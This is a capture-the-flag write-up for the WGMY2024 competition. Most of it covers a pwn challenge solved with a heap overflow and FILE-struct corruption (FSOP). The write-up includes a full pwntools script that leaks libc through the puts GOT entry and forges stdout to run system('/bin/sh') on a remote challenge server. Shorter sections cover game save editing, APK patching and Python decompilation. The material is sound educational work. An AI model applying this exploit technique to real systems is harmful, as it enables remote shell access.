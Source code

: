 # WGMY2024

## Table of Contents
- [pwn/screenwriter](#pwnscreenwriter)
- [game/world 1](#gameworld-1)
- [game/world 2](#gameworld-2)
- [rev/stones](#revstones)
- [rev/sudoku](#revsudoku)

## Pwn/Screenwriter

Challenge Description : Use our software to craft your next blockbuster hit!

Challenge Summary : This challenge involves overwriting the FILE struct to gain arbitrary read and write

<details>
<summary>Source Code</summary>

```c
#include <stdio.h>
#include <stdbool.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void init(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    return;
}

void menu(){
    puts("1. Set screenwriter name");
    puts("2. Write script");
    puts("3. View reference");
    puts("4. Exit");
}

int get_choice(){
    char tmp[5] = "";
    printf("Choice: ");
    fgets(tmp,4,stdin);
    return atoi(tmp);
}

void main(){
    init();
    char* name = malloc(0x28);
    FILE *ref_script = fopen("bee-movie.txt","r");
    FILE *own_script = fopen("script.txt","w");
    puts("Welcome to our latest screenwriting program!");
    
    while (true){
        int choice = 0;
        menu();

        switch (get_choice()) {
            case 1:
                printf("What's your name: ");
                read(0,name,0x280);
                break;        

            case 2:
                char own_buf[0x101] = "";
                printf("Your masterpiece: ");
                read(0,own_buf,0x100);
                fwrite(own_buf,1,0x100,own_script);
                break;

            case 3:
                char ref_buf[0x11] = "";
                memset(ref_buf,0,0x11);
                fread(ref_buf,1,0x10,ref_script);
                puts("From the reference:");
                puts(ref_buf);
                break;

            default:
                printf("Goodbye %s",name);
                exit(0);
        }
    }
}
```

</details>

Looking at the source code, we can see an obvious buffer overflow in option 1 which lets us overwrite data in the heap. However, it is not immediately clear what we are suppose to overwrite.

![image](https://github.com/user-attachments/assets/34f34683-5893-4583-8a32-cc9c67c230cc)

Looking at it in gdb, we can see our name chunk with size 0x31 at the top. After that, theres another chunk with size 0x1e1 followed by the value 0xfbad2488. When I saw this value, FSOP immediately came to mind. What is a FILE struct? Lets let @Ren explain 

![image](https://github.com/user-attachments/assets/9614f272-4910-4799-9d79-8f3a70ec1e0d)

You can take a look at the definition in [elixir bootlin](https://elixir.bootlin.com/linux/v6.12.6/source)

<details>
<summary>FILE Struct</summary>

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

</details>

The FILE Struct contains many fields which manage buffering.

### Analysis

![image](https://github.com/user-attachments/assets/03c4a9dd-ef7a-4ef6-a6df-42a5cf45204f)

After using option 3, we can see that the struct is now populated with values.

![image](https://github.com/user-attachments/assets/d9123403-d0ad-450e-b409-864d182c755a)

The contents of the bee script is read into 0x405690 which corresponds to the values in the struct above. Now, our goal will be to overwrite the pointers on the struct to trick it into thinking theres a buffer located somewhere else. Then we will use option 3 to leak this value. Our target will be the GOT entry of puts()

```
GOT protection: Full RelRO | GOT functions: 13

[0x403f88] puts@GLIBC_2.2.5  →  0x7ffff7c80ed0
```

```py
payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)
```

![image](https://github.com/user-attachments/assets/32f89dfc-24e7-4817-abcd-78f7ad8980bd)

Now that we know where is libc, maybe we can spawn a shell on the server. To do that, we need to be able to freely write anywhere in memory. Luckily for us, there is a 2nd file struct which lets us write data. Now, we should overwrite the struct fields to trick libc into thinking that the buffer is located somewhere else. But where should we write to? I used [angry-FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/) to spawn shell on server. 

### Getting Arbitrary Write

```py
payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)
```

![image](https://github.com/user-attachments/assets/52214079-50ad-4ed1-92da-b9907e244482)

Now, the buffer for our write is located at `_IO_2_1_stdout_`. The next thing to do would be to overwrite stdout with our payload.

![image](https://github.com/user-attachments/assets/ed3c8a0d-a18c-4f47-aca7-60b5718e81c0)

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./chall_patched')
libc = exe.libc

host = "43.216.119.115"
port = 32782

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"Choice: ", "3")

payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)

sla(b"Choice: ", "1")
s(payload)
sla(b"Choice: ", "3")

ru(b"reference:\n")
libc.address = u64(rl() + b"\x00\x00") - (0x7f9149c80ed0 - 0x00007f9149c00000)
environ = libc.sym["environ"]
li(f"Libc base @ {hex(libc.address)}")

stdout_lock = libc.address + 0x21ba70
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
gadget = libc.address + 0x0000000000163830

payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)

print(hex(len(payload)))
sla(b"Choice: ", "1")
s(payload)

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

print(hex(len(bytes(fake))))
sla(b"Choice: ", "2")
s(bytes(fake))

# debug()

p.interactive()
```

</details>

### Side Note

There are multiple ways to solve this challenge, potentially overwriting the return address of read() or overwriting the exit functions handler with a one gadget. I tried both but it didnt work for me so I guess its a skill issue. Though, I was very satisfied with this because its my first time solving a FSOP challenge after reading writeups about it.

## Game/World 1

When saving the game, we get a RMMZSave file which we can edit using this [Save Edit](https://www.saveeditonline.com/)

![image](https://github.com/user-attachments/assets/dcad718c-1093-455f-9ccf-97b2d4f7ccff)

Then, just play the game and one shot the bosses to get all the flag. Flag 1, 2 and 3 is obtainable by killing the boss. Flag 4 can be obtained by killing the lava world boss and walking back out. The flag is written on the floor. The final flag is obtained by unlocking the chest and entering the password "wgmy". Hints about the password is given as "23 7 13 25".

## Game/World 2

Open the apk in APKLab and look for interesting things. One thing I found was the Enemies.json

![image](https://github.com/user-attachments/assets/1129c465-dc52-4921-a649-cdac2b4fed99)

`"params":[600,0,20,20,20,20,20,20]`

I assumed the params are the stats of the monster and just modified the biggest number (assuming to be HP) to 1. Then, recompile the APK and sign it. Then install the game in BlueStacks and play through the game to get all the flags. Flags are obtained in the same way as World 1

## Rev/Stones

Running strings on the file shows that its a python executable

![image](https://github.com/user-attachments/assets/bc14c56f-1ed3-41df-8970-2fe9d6a13a7b)

Use [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) on the exe.

<details>
<summary>Extracted</summary>

```py

```py
# Source Generated with Decompyle++
# File: CHAL-stones.pyc (Python 3.10)

import requests
from datetime import datetime
from urllib.request import urlopen
from datetime import datetime
server_url = 'http://3.142.133.106:8000'
current_time = urlopen('http://just-the-time.appspot.com/')
current_time = current_time.read().strip()
current_time = current_time.decode('utf-8')
current_date = current_time.split(' ')[0]
local_date = datetime.now().strftime('%Y-%m-%d')
# print(current_date)
# print(local_date)
if current_date == local_date:
    print("We're gonna need a really big brain; bigger than his?")
first_flag = 'WGMY{1d2993'
user_date = current_date
params = {
    'first_flag': first_flag,
    'date': user_date }
response = requests.get(server_url, params, **('params',))
if response.status_code == 200:
    print(response.json()['flag'])
#     return None
# None(response.json()['error'])
```

</details>

From the challenge description, theres a `/flag` endpoint on the server so just navigate to `http://3.142.133.106:8000/flag` and the server will respond with a YouTube video link. Send a get request to `http://3.142.133.106:8000` with the date set to the upload date of the YouTube video will give us the flag.

## Rev/Sudoku

Once again, another python executable. Just use pyinstxtractor and pycdc to get the original code back

<details>
<summary>Extracted</summary>

```py

```py
# Source Generated with Decompyle++
# File: sudoku.pyc (Python 3.11)

import random
alphabet = 'abcdelmnopqrstuvwxyz1234567890.'
plaintext = '0 t.e1 qu.c.2 brown3 .ox4 .umps5 over6 t.e7 lazy8 do.9, w.my{[REDACTED]}'

def makeKey(alphabet):
    alphabet = list(alphabet)
    random.shuffle(alphabet)
    return ''.join(alphabet)

key = makeKey(alphabet)

def encrypt(plaintext, key, alphabet):
    pass
# WARNING: Decompyle incomplete

enc = encrypt(plaintext, key, alphabet)
```

</details>

### Solve

<details>
<summary>Solve Script</summary>

```py

```py
plaintext = '0 t.e1 qu.c.2 brown3 .ox4 .umps5 over6 t.e7 lazy8 do.9, w.my'
anotherrr = 'z v7o1 an7570 9d.tl3 7.4b 7n2pws .qodx v7oc ye68u m.7r, t728'

# Function to create a mapping from plaintext to anotherr
def create_mapping(plaintext, anotherr):
    # Initialize an empty dictionary to store the character mapping
    char_mapping = {}

    # Iterate over the characters in both strings
    for p_char, a_char in zip(plaintext, anotherr):
        if p_char != ' ' and a_char != ' ':  # Ignore spaces
            char_mapping[p_char] = a_char
    
    return char_mapping

# Create the mapping
mapping = create_mapping(plaintext, anotherrr)
encrypted_message = "t728{09er1bzbs9sx5sosu7719besr39zscbx}"

# Print the character mapping
# print("Character Mapping:")
i = 0
flag = ""
        
print(mapping)

for i in range(len(encrypted_message)):
    for p_char, a_char in mapping.items():
        if a_char == encrypted_message[i]:
            flag += p_char
print(flag)
```
</details>


![image](https://github.com/user-attachments/assets/605fcf21-3a9d-47d3-93f4-cc8227503e88)

Our output is `w.my2ba914045b56c5e58..1b4a593b05746` but since we know the flag format and we know that the hash is hex values, we can just fix the flag to `wgmy{2ba914045b56c5e58ff1b4a593b05746}`
